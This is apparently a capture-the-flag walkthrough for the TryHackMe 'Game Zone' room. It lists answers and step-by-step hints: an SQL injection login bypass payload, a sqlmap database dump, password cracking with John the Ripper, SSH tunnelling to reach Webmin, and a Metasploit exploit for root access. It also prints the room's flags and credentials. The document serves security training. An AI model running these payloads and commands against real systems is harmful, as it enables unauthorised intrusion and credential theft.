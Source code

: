 #### Link to room: https://tryhackme.com/room/gamezone

#### [Task 1] Deploy the vulnerable machine
   1. No answer needed
   2. Agent 47 
> Take a screenshot of the person 
>
> Go to google and click "images" 
>
> In the search bar there should be a camera icon that is called "search by image" aka google reverse image search 
>
> Upload the screenshot you took and you should be able to find the name of the character 

#### [Task 2] Obtain access via SQLi
   1. No answer needed
   2. No answer needed
   3. portal.php
> Hint:
>
> Enter the code "' or 1=1 -- -" as the username and click enter
>
> You should then be redirected to the /portal.php page

#### [Task 3] Using SQLMap 
   1. ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
> Hint: 
>
> Open up Burp and under the proxy tab, starting intercepting on
>
> Make sure the proxy is on too in the browser 
>
> On the web page, make a search for the word "test"
>
> Back on burp, something similar to this should appear in the burp window
```
POST /portal.php HTTP/1.1
Host: \<GIVEN-IP-ADDRESS\>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://\<GIVEN-IP-ADDRESS\>/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close
Cookie: PHPSESSID=hdb5dmu4vpm3asuf20nm12gfv2
Upgrade-Insecure-Requests: 1

searchitem=test
```
> Type the following command into terminal: 
>
> sqlmap -r request.txt -dbms=mysql --dump 
>
> You will be asked the following questions and answer them accordingly 
```
Do you want to keep testing the others(if any)? [y/N]: y
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
```
> After it has finished you should be able to see 2 tables:
>
> A table with names and descriptions
>
> And a table with a hash and the username
   2. agent47
   3. post

#### [Task 4] Cracking a password with JohnTheRipper
   1. No answer needed
> Hint: 
>
> Save the hash into a file called hash.txt
>
> Also visit this [webpage](https://www.tunnelsup.com/hash-analyzer/) to see what hash format the hash is in 
   2. videogamer124
> Hint: 
>
> Run the following command in terminal to de-hash the password: 
>
> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
   3. 649ac17b1480ac13ef1e4fa579dac95c
> Hint: 
>
> Login via SSH by typing the following command into terminal 
>
> ssh agent47@\<GIVEN-IP-ADDRESS\>
>
> Enter the password "videogamer124"
>
> Then you should be logged in as agent47 where you can then cat the user flag 

#### [Task 5] Exposing services with reverse SSH tunnels 
   1. 5 
> Hint: 
>
> Run the "ss -tulpn" in agent47's account 
>
> Count the number of TCP ports present 
   2. webmin
> Hint: 
>
> In your local terminal, type the following command: 
>
> ssh -L 10000:localhost:10000 agent47@\<GIVEN-IP-ADDRESS\>
>
> Navigate to "http://localhost:10000" in the browser
>
> Login with the credentials agent47:videogamer124
>
> You should be presented with webmin page (the exposed CMS)
   3. 1.580
> Hint: 
>
> On the webmin page you should be able to see the version number

#### [Task 6] Privilege escalation with Metasploit
   1. a4b945830144bdd71908d12d902adeee
> Hint: 
>
> Open metasploit with the command "msfconsole" in the terminal 
>
> Type the command "search webmin 1.580" in the msfconsole
>
> There should be an exploit titled "exploit/unix/webapp/webmin_show_cgi_exec"
>
> Type "use exploit/unix/webapp/webmin_show_cgi_exec"
>
> If you type "show options", you will be presented with a table that contains a column that states "required"
>
> We need to fill in these setting with the following inputs 
```
set PASSWORD videogamer124
set RHOSTs localhost
set USERNAME agent47

```
> Type show options to make sure your inputs have successfully been added
>
> Then type "run" to run the exploit
>
> Once we have a shell then type the command to see the answer: 
>
> cat /root/root.txt 
>
> NOTE: You may have to use the following "set SSL false"

